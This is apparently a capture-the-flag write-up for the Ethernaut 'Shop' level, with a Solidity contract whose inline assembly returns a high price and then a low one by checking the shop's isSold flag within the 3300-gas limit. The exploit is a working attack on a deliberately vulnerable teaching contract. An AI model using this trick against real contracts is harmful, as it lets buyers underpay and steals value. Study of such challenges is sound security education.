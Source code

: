 This challenge is similar to "11. Elevator" i.e we have to return different values from the same function, based on the number of call. In this, for the first call to our "Buyer" contract's "price" function, it has to return number greater than 100 and for second call to the same function, it should return number less than 100. This challenge differs "Elevator" challenge in how much gas is forwarded for the call. While calling "price" function, "Shop" contract forwards exactly "3300" gas. $$3300$$ gas is very less to do any storage operations i.e provided gas is not enough to store a value in state variable which makes "Elevator" challenge exploit useless. Without a state variable, we have to use "Shop" contracts "isSold" variable to differentiate the calls. Note that "isSold" is changed to true between the two calls. Even if we don't use storage related operations, to complete message call to another contract with the available gas, we have to write the price function in solidity assembly "Yul" language minimizing the gas consumption.

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Buyer {
    Shop public shop;
    bool public a;
    // constant variables are replaced at compile time.
    address constant shopAddress = 0xeE2Bce1C36041B5073a8420767A1e7997738cEE8;
    bytes4 constant signature = hex"e852e741";
    
    constructor(address _shop) public {
        shop = Shop(_shop);
    }
    
    function price() public  returns (uint result) {

        assembly {
                let x := mload(0x40)
                result := mload(0x40)
                mstore(x, signature)
                let success := call(      
                            gas(), // remaining gas
                            shopAddress, // To addr
                            0,    // No wei passed
                            x,    // Inputs are at location x
                            0x4, // Inputs size two padded, so 68 bytes
                            x,    //Store output over input
                            0x20)
                if eq(mload(x), 0) {
                    mstore(result, 100)
                }
                return(result, 0x20)
        }
    }
    
    function callBuy() public {
        shop.buy();
    }
}
```

---